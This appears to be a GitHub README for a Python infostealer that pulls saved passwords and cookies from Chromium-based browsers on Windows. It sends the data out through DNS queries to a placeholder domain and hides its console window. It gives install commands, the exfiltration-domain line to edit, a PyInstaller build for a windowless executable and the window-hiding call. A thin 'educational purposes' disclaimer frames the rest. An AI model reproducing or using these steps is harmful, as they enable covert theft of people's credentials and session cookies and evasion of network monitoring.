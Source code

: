 
```markdown
# 🔐 Browser Credential & Cookie Extractor (Stealth Mode)

## 📌 Description

This Python script is designed to extract saved **credentials** (usernames and passwords) and **cookies** from various Chromium-based browsers installed on a Windows machine. It then **exfiltrates** the data by encoding it and sending it through **DNS queries** to a specified server.

> ❗ This script is for **educational and ethical research purposes only**. Unauthorized use or distribution of this tool may be illegal.

---

## 🧠 Features

- ✅ Extracts passwords from:
  - Google Chrome
  - Microsoft Edge
  - Brave Browser
  - Opera

- ✅ Extracts cookies from the same browsers (excluding Firefox)

- 🔐 Uses AES-GCM encryption for exfiltration
- 📡 Sends data over DNS to evade firewalls/network monitoring
- 🕵️‍♂️ Runs in **stealth mode** (hides the console window)
- 🧬 Compatible with Windows (uses DPAPI and Windows APIs)

---

## ⚙️ Requirements

- Python 3.8+
- Windows OS
- Install required modules:

```bash
pip install pycryptodome browser-cookie3 dnspython pywin32
```

---

## 🚀 How to Use

1. **Configure Your DNS Exfiltration Server**  
   Replace this line in the script with your domain:
   ```python
   subdomain = f"{chunk}.yourdnsserver.com"
   ```

2. **Run the script manually**  
   You can run the script via terminal or IDE:
   ```bash
   python script.py
   ```

---

## 🧳 Convert to Executable (.exe)

You can compile the script into a Windows `.exe` to make it portable and run it without showing any console window:

### 1. Install PyInstaller
```bash
pip install pyinstaller
```

### 2. Build Stealth Executable
```bash
pyinstaller --noconsole --onefile script.py
```

- `--noconsole`: Ensures the script runs in the background (no black window).
- `--onefile`: Generates a single `.exe` file.

The resulting executable will be located in the `dist/` folder.

---

## 🕶️ Stealth Behavior

The script uses:
```python
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
```
to **hide the console window** during runtime if executed via script, making it harder for users to detect.

---

## ❗ Legal Disclaimer

This tool is intended for **educational, penetration testing, and malware analysis training** only. Using this script to access or collect personal data without explicit permission is **illegal and unethical**.

You are responsible for your own actions.
